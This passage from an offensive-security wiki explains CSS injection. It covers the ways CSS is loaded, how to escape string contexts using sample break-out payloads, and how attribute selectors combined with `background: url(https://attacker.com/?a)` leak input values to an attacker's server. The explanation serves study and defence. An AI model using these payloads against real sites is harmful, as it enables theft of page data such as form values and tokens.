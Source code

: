 {% embed url="https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/" %}
Explanation of CSS Injection basics
{% endembed %}

### stylesheet vs. \<style> vs. style=

CSS can be loaded in a few different ways, and sometimes the details matter.

1. `<link rel="stylesheet" href="style.css">`: Loads CSS content from a URL (`href=`). This is only vulnerable if you can control the attribute enough to redirect it to any of your arbitrary content (or directly with an HTML-Injection), or if you have an injection dynamically generated CSS content somehow.
2. `<style>`: Using an sanitized HTML-injection, you may still be able to write a `<style>` tag with arbitrary content. Another option is if user input ends up in partially-trusted content and you can escape the context. (note: HTML-encoding content won't work here, even though it is inside HTML)
3. `style=` attribute: Inside of a [style attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/style), it is _not possible_ to add selectors and leak content. You can only change the style of the element it is an attribute of, to for example, make it take up the whole screen with a background image. There is one small edge case using the recent `if()` statements to brute force attributes on the same element as this attribute (see [#stylesheet-vs.-less-than-style-greater-than-vs.-style](css-injection.md#stylesheet-vs.-less-than-style-greater-than-vs.-style "mention")).

### Escaping string context

When injecting in partially-trusted CSS, it is almost aways enough to use `}` to close the current selector and open new ones. One exception to this is strings, which use quotes (`"`) that need to be closed first. You may be able to do this directly, or use a special character to also close the context (`\n`, `\r` or `\x0c`).

```css
.element::before {
  content: "<?= $content ?>";
}

.element2 {
  background: url('https://example.com/?param=<?= $param ?>');
}
```

The above injection points can be exploited in a few different ways:

* `$content`:\
  Using `"}*{background:red}` to close the quote\
  Using `\x0c}*{background:red}` to end the string (`\x0c` refers to the literal _Form Feed_ character, also `\n` and `\r` characters possible)
* `$param`:\
  Using `')}*{background:red}` to close the quote and `url()`\
  Using `\x0c)}*{background:red}` to end the string and `url()`

## Leaking

The goal of injecting CSS is to leak other content on the page. The most common attack is leaking attribute values of HTML elements by using selectors such as `input[value^=a]` to match any `<input>` element whose `value=` attribute _starts_ with "a". Inside of the selector, you can put a `background: url(https://attacker.com/?a)` pointing to your server with a unique path for that selector. Only if the selector matches, will the background be loaded and the URL requested. By seeing the incoming request, the attacker now knows there is an input element with that specific first character.
